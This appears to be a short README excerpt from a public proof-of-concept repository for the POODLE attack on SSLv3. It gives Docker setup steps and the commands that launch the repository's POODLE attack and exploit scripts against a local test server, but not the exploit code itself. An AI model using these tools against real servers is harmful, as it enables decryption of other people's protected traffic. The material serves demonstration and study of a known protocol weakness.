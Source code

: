 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py


# Use poodle-exploit.py
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC